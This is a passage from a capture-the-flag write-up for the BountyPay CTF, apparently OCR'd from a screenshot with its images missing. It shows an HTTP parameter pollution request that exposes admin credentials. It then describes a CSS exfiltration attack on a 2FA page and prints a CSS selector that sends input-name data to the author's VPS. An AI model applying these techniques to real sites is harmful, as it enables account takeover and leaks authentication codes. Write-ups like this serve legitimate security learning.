 ```
I had this functionallity, but I need to be admin to be admin... So I needed to report something wrong...but what?

And after many smoke over my head, I thought on HTTP Parameter Pollution.

Doing the following request:

https://staff.bountypay.h1ctf.com/?template[]=login&username=sandra.allison&template[]=ticket&ticket_id=3582#tab4

{F862622}

I broke the page.

{F862640}

Finally, I had to base64-encode this payload and send it to one admin, doing the following request:

{F862656}

I obtained a new tab on home dashboard with our friend, marten.mickos user and password:

{F862661}

Finally, with this info, I got ready to help our favourite H1 CEO

##  FINAL BOSS: APP AGAIN T_T

Using the same technique as the other user I landed on APP site profile of Marten. Doing some searching, I found a payment.

{F862679}

So I pushed the button "Pay" and other page came to me:

{F862683}

This page requested a weird HTTP request, trying to request some CSS file...soooooo weird.

{F862684}

And then, the page requested you a 2FA code:

{F862685}

Ok, I didn't no idea how to attack this page...

Totally confuse, I've researching about CSS attacks and I found one: CSS Exfiltration. (@d0nut explains this vulnerability better than me, so take a look at this resource https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)

With this idea, I started to do blind CSS exfiltration requests using above request and my VPS to allocate a personal CSS and receive the server responses:

I added this sentences to the CSS:

```input[name=^c][value]{ background-image:url(https://VPS-dir/css/jur1)};```

If the server tried to contact to my VPN that means that exists a HTML input with name starting with c. 

So doing this, I obtained that there were 7 inputs: code_1 to code_7. 

```